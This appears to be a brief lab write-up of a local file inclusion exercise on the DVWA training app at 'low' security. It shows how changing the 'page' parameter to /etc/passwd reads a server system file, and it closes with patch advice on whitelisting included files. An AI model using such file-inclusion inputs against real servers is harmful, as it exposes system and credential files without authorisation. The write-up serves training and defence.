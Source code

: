 Security level is currently: low.

In url there is GET parameter page used for including file.

url:http://192.168.57.222/vulnerabilities/fi/?page=include.php

By changing this file location we can read file on server.

url:http://192.168.57.222/vulnerabilities/fi/?page=/etc/passwd

![Screenshot 2025-04-25 031445](https://github.com/user-attachments/assets/fb6f8581-0e5f-46c0-8411-0fc4e62269cb)


Patch:

Don’t use user input in include/require.

Whitelist files or use fixed file mappings.
